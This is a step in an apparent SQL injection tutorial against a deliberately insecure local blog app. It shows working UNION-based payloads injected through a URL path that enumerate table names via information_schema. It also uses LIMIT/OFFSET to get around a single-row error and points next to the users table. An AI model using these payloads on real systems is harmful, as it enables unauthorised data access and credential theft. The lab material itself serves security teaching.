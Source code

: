 # (e) Get all tables

The plan here is to **list all the tables** of the target database (the database of this app).

The [information_schema](http://dev.mysql.com/doc/refman/5.7/en/information-schema.html) database we discussed in the previous step also store information about all the tables in every database of the server.

This information is stored in a table called **COLUMNS**.

So, to get all the tables of our database we have to query that *COLUMNS* table.
Let say our database is called **insecure_blog** (just like detailed in [env/development.json](../../env/development.json)). The query could be like this:
```shell
SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'
```

where:
- **table_name** is the column where the table's name get stored,
- **table_schema** is the column where the database's name get stored

> **Note:**
>   is important to use **distinct(table_name)** instead of **table_name** alone, because there is one table_name for each column of each table. 
> This means that if one table has 10 columns there will be 10 rows in the table_name column.
> Check this out. This is **information_schema.columns**:
>
> | TABLE_SCHEMA  | TABLE_NAME    | COLUMN_NAME  |
> | ------------- |:-------------:| ------------:|
> | insecure_blog | posts         | id           |
> | insecure_blog | posts         | title        |
> | insecure_blog | posts         | body         |
> | insecure_blog | posts         | date         |
> | insecure_blog | posts         | status       |


Then we inject the query in the browser:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'),3,4,5,6,7,8,9/slug-name-post'
```

This query, just like in the previous step will return an error:
```javascript
{
  "status": "Error",
  "message": "ER_SUBQUERY_NO_1_ROW: Subquery returns more than 1 row"
}
```

We can use the same trick (*LIMIT + OFFSET*) to get the job done:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog' LIMIT 1 OFFSET 0),3,4,5,6,7,8,9/slug-name-post'
```

And keep **increasing the OFFSET** value to get all the tables.

----------

If all went well, we will have 3 tables:

- posts
- comments
- users

Of course we will focous in the **users table**.

But this is for the next step.
That is it for now!!
